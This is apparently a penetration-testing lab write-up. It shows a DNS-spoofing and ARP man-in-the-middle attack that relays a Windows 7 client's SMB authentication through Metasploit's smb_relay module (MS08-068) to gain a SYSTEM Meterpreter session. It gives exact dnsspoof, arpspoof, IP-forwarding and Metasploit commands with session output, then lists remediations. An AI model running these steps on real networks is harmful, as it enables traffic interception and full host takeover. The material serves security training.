# DNS & SMB Relay Attack

**Classification:** Host & Network Penetration Testing / Network-Based Attacks<br>
**Client:** 172.16.5.5 (Windows 7, polls `\\fileserver.sportsfoo.com\finance$`)<br>
**Target / SMBHOST:** 172.16.5.10<br>
**Attacker:** 172.16.5.101 (Kali)

## 1. Executive Summary

When the Windows 7 client periodically connects to `\\fileserver.sportsfoo.com`, we poison
its DNS resolution with `dnsspoof` (backed by an ARP MITM) so the name resolves to our
attacker host. Metasploit's `smb_relay` (MS08-068) module receives the inbound SMB
authentication and relays it to the target, executing a Meterpreter payload as
`NT AUTHORITY\SYSTEM`.

## 2. Attack Overview



1. The client connects to `\\fileserver.sportsfoo.com\finance$` every ~30 seconds.
2. The attacker spoofs DNS so the name resolves to `172.16.5.101`.
3. The client opens an SMB connection to the attacker instead of the real file server.
4. `smb_relay` receives the auth and relays it to the target (`172.16.5.10`), dropping a
   Meterpreter payload.
5. A reverse Meterpreter session returns to the attacker.

## 3. Configuring the SMB Relay Module

Starting MSF and selecting the relay module (payload defaults to
`windows/meterpreter/reverse_tcp`).

```bash
search smb_relay
use 0        # exploit/windows/smb/smb_relay (MS08-068)
```



```bash
set LHOST 172.16.5.101
set SRVHOST 172.16.5.101
set SMBHOST 172.16.5.10
run
```

The handler and the SMB service listener (port 445) start and wait for a relayed login.



## 4. DNS Spoofing Setup

We create a `dns` hosts file pointing the target domain at our IP, then start `dnsspoof`.

```bash
echo "172.16.5.101 *.sportsfoo" > dns
dnsspoof -i eth1 -f dns
```



> **Note:** the hosts file is missing the TLD — it should read
> `172.16.5.101 *.sportsfoo.com` so the wildcard matches `fileserver.sportsfoo.com`.



## 5. Enabling IP Forwarding

For the MITM to forward traffic between the client and the gateway, IP forwarding must be
enabled.

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```



## 6. ARP Spoofing (MITM)

Two `arpspoof` instances poison the client and the gateway so all traffic routes through
the attacker.

```bash
arpspoof -i eth1 -t 172.16.5.5 172.16.5.1
arpspoof -i eth1 -t 172.16.5.1 172.16.5.5
```





## 7. Capturing the Poisoned Query

`dnsspoof` intercepts the client's `A?` query for `fileserver.sportsfoo.com` and answers
it with our IP, redirecting the SMB connection to the attacker.



## 8. Relaying the Authentication

The relay against `172.16.5.10` succeeds: the module uploads the payload, creates and runs
a service via the SCM, and opens a Meterpreter session.

```
[+] SMB auth relay against 172.16.5.10 succeeded
[*] Meterpreter session 1 opened (172.16.5.101:4444 -> 172.16.5.10:49158)
```



## 9. SYSTEM Shell

The session runs as `NT AUTHORITY\SYSTEM` on the FILESERVER host.

```bash
sessions
sessions 1
sysinfo
getuid
```



## 10. Remediation Recommendations

1. **Enable SMB signing** on all hosts — it defeats SMB relay by cryptographically binding
   the authentication to the session.
2. **Patch MS08-068** and keep systems updated; retire end-of-life Windows 7.
3. **Harden the layer-2 network:** Dynamic ARP Inspection and DHCP snooping to stop ARP
   spoofing, and use DNSSEC / trusted internal resolvers against DNS poisoning.
4. **Segment and monitor** for duplicate ARP replies and unexpected DNS answers.
